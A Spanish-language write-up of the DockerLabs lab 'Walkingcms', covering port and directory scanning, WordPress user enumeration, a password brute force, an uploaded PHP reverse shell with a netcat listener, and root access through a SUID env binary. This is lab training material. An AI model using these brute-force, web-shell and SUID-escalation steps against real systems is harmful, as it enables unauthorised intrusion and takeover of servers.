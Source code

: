 ![image](https://github.com/user-attachments/assets/5d5059e5-32ec-45c1-a72f-38824d7ceffe)---
title: Walkingcms - DockerLabs
published: true
categories: DockerLabs
---


| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | El Pingüino de Mario        | 


# Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. 
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/77dd604e-5f54-4f49-88d9-895340426162)

Durante el escaneo, descubrimos que los siguientes puertos están activos:
- `80` (HTTP)
A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.
```bash
nmap -p80 -sCV 172.17.0.2 -oG targeted
```
![image](https://github.com/user-attachments/assets/75e7bf0e-7097-4921-b52b-9ec1ed2d04fa)

# Exploración Web
Al analizar el puerto `80`, encontramos una página de defecto de apache.

![image](https://github.com/user-attachments/assets/c43ac784-f5dd-4088-b5a9-5570e59d20d1)


Utilizamos `Gobuster` para realizar un reconocimiento web y explorar los directorios disponibles en el sitio.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img
```
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.17.0.2/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

![image](https://github.com/user-attachments/assets/7c400ad1-d895-4407-9e79-33f7b4332f76)

Identificamos la ruta `/wordpress`.

# Wordpress

Usaremos `Wpscan` para ver que encontramos dentro.

```bash
wpscan --url http://172.17.0.2/wordpress -e 
```
![image](https://github.com/user-attachments/assets/6523fb18-311e-40ae-b49b-eae65ac1cd09)

Encontramos un usuario mario , lo que haremos sera fuerza bruta para acceder.

## Fuerza bruta.

```bash
wpscan --url http://172.17.0.2/wordpress -U mario -P /usr/share/wordlists/rockyou.txt
```

Encontramos una contraseña la cual es `love`.

![image](https://github.com/user-attachments/assets/d3ebd0d3-b0d9-4bfb-b631-bcf668240a65)

Accedemos con mario

Somos administradores por lo que añadiremos el plugin `FILE MANAGER` todo esto para añadir un `shell.php` y poder acceder a traves de una revershell.

## Reverse Shell

Creamos un archivo `shell.php` y cargamos una reverse shell usando la herramienta [Reverseshell de Pentest Monkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) para crear una shell en PHP. La reverse shell se encuentra disponible en:

![image](https://github.com/user-attachments/assets/f8cd26c8-08bb-459d-b45b-5f761626f3e1)

Una vez subido el archivo, accedemos a la ruta `/wordpress/shell.php` y ejecutamos la shell.

No salta un mensaje de que se ha subido el archivo accedmos a la ruta /uploads y lo ejecutamos 

![image](https://github.com/user-attachments/assets/168111df-59fd-4757-9416-3b8aa36be241)

Simultáneamente, iniciamos `netcat` en nuestro sistema para escuchar conexiones entrantes:
```bash 
nc -lvnp 4444
```
Al acceder a la reverse shell desde el navegador, logramos obtener acceso como `www-data`.

![image](https://github.com/user-attachments/assets/4456d8d6-70d2-4f81-9684-0e5685581680)

Logramos acceso como` www-data`.

![image](https://github.com/user-attachments/assets/f06c2d36-dd9d-498e-bba4-20fb4e8df2e3)

## TTY ReverseShell

### Iniciar una sesión de shell interactiva
En nuestra shell básica, ejecutamos el siguiente comando para forzar la creación de una sesión de bash interactiva:
```bash
script /dev/null -c bash
```
### Suspender la shell
Una vez que el comando anterior está en ejecución, utilizamos
```bash
Control+Z
```
para suspender temporalmente nuestra shell.

### Preparar nuestro terminal local:
Antes de volver a nuestra shell, configuramos nuestro terminal local:
```bash
stty raw -echo; fg
```

### Resetear la configuración del terminal
Ahora que tenemos el control de la shell, la reseteamos para asegurar que se comporta correctamente:
```bash
reset
```

### Configura el tipo de terminal:
```bash
xterm
export TERM=xterm
export SHELL=bash
```

# Escalada de Privilegios

Usamos el siguiente comando (haz una explicacion para que sirve el comando).

```bash
find / -perm -4000 2>/dev/null
```

Vemos que podemos ejecutar `env` , por lo que ejecutamos el siguiente comando.

```bash
/usr/bin/env /bin/sh -p
```

Ya somos root

![image](https://github.com/user-attachments/assets/46fca506-c321-431e-8c4a-50f1c08fac4a)
